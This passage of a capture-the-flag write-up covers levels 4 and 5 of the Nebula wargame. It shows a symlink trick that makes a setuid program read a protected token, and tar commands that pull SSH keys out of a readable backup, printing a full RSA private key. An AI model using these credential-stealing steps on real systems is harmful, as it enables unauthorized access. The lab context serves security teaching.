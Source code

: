 ```c
  if(rc == -1) {
    // If the file somehow doesn't exists it throws this error.
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }
  write(1, buf, rc);
  // Here we write to standard out (the 1 indicates it).
}
```
I started trying to encode the file name and some other stuff, that didn't work. Then it hit me. I can just create a link.
```
level04@nebula:/tmp/04$ ln -s /home/flag04/token ./test
level04@nebula:/tmp/04$ ls
test  test.sh
level04@nebula:/tmp/04$ /home/flag04/flag04 ./test
06508b5e-8909-4f38-b630-fdb148a848a2
```
Wohoo, it worked!
## Level 5
About
Check the flag05 home directory. You are looking for weak directory permissions
To do this level, log in as the level05 account with the password level05. Files for this level can be found in /home/flag05.
So I just read the files.

```
level05@nebula:/home/flag05/.backup$ tar -Oxf backup-19072011.tgz .ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLAINcUvucamDG5PzLxljLOJ/nrkzot7EQJ9pEWXoQJC0/ZWm+ezhFHQd5UWlkwPZ2FBDvqxdcrgmmHT/FVGBjK0XWGwIkuJ50nf5pbJExi2SC9kNMMMP2VgY/OxvcUuoGhzEISlgkuu4hJjVh3NeliAgERVzxKCrxSvW48wcAxg4v5vceBra6lY7u8FT2D3VIsHogzKN77Z2g7k2qY82A0vOqw82e/h6IXLjpYwBur0rm0/u3GFB1HFhnAxuGcn4IsnQSBdQCB2S+eOUZ4PmiQ/rUSHuVvMeLCzrxKR+UG9zDwoCwwXpNJehAQJGCiL3JzBNnLjFaylSqKP6xj7cR user@wwwbugs
```


```
level05@nebula:/home/flag05/.backup$ tar -Oxf backup-19072011.tgz .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAywCDXFL7nGpgxuT8y8ZYyzif565M6LexECfaRFl6ECQtP2Vp
vns4RR0HeVFpZMD2dhQQ76sXXK4Jph0/xVRgYytF1hsCJLiedJ3+aWyRMYtkgvZD
TDDD9lYGPzsb3FLqBocxCEpYJLruISY1YdzXpYgIBEVc8Sgq8Ur1uPMHAMYOL+b3
Hga2upWO7vBU9g91SLB6IMyje+2doO5NqmPNgNLzqsPNnv4eiFy46WMAbq9K5tP7
txhQdRxYZwMbhnJ+CLJ0EgXUAgdkvnjlGeD5okP61Eh7lbzHiws68SkflBvcw8KA
sMF6TSXoQECRgoi9ycwTZy4xWspUqij+sY+3EQIDAQABAoIBAAGir2w+/ufzs3Pm
xGKf5nc8rY0gSl5VnIeUyp1iWylmITcxifiO5ZUo9rZzgXXeWB37a2eC6V1Fya4c
7jaYx24FGzruXMYO9rfZzgLrbQAJL3YepcwnWGzTpJk90Kulv1zuGecHMk6ZcvGx
bRysutAKmIXwSR9oQ3BOOkyTKKtI6YeKSnUNU1KVO1t//ps2wFcfXRFb17prpokx
5clWwfUYRLBQlB4XjBIJ3tswpyC0PNOFfzoF+VeUlN9XZFrL0JWHX1F9DDOFJYL5
bXw7zwhjEvZ0/qOvZSJiH4lkbmANsBeMNY/JOGV6T7dWthKBGehCnupeADZVaSeo
Qlysa0ECgYEA6x4FwgpeqNtNGeCcSAUtoviTYMD5LfMEpY8t9eGdRpzw1CDlmG9x
k1LgzE3eA0qlJYx5NNqYEefIPVLdmSuSGS/5KqHeB8Ph7+WqLmguwIIIrfRJoPaD
ON2XqLU6YzAEazTrXnqALjOvP3qdN57xK0zoBAfYlkXJRgMYE1S23YsCgYEA3QhF
Fl11csPc2Yyz/7+9MG9JnOckYvuir+bf3fj/HEuIC9ylwXd4GfSLAW02Sg8DlfRh
M7MxCW9OEWtKgUtHe3fGc6/6X1yF7QfeAYZm8UX/fo6PxuX++mvfPxM4i6vRjgzB
Qy8WisqTK9nLZO+hEdPoVqalz0iUsvu2umz0CVMCgYAsNoUWrCSI1FR3XUmGMZMX
Zm8wbpltDpn9GCOobTjKIpEXEuiZ9bsB3T/wq2Poco0DtprEWabnFxMMlRyexRbA
LclJPw8lnqxKFIIgH+9KvCktrRZ7cl/SvbjbPNkx9cGe92Cbb6XTCl0WLtSJtRXc
8qVevKr59z2WMNbCK9gHaQKBgQDRaQNjpBohKFX2OytSU8uftuBMamV77iJ9e0SA
Hmc83IbBjkPwnwrHtHt6V4lG8yCXktgAznXYFX8mW7tT8gmAfcMkWgbhEFzGbFy2
nyqqzoG42sJ3U/KWOVtifAhns9qvNYBo8ZTu2+xBcHAWaj31EQqgBfU0BPT0+ixu
RcmThwKBgAi0ej7ylHhtwODQGghRmDpxEx9deJ0jilM2EnqIecJj5jnPW8BKDgV4
Dc1QljBeCQ1r30DGYmOIazbhm+orm4df6HWPayRhNBlkmulqTs5GHvLMPjcKMB0k
0Xna7QOtBAnzoHpLcrfvBdfRNE1eC87YkPUhmm5hBgG0+TeMmWgr
-----END RSA PRIVATE KEY-----
```

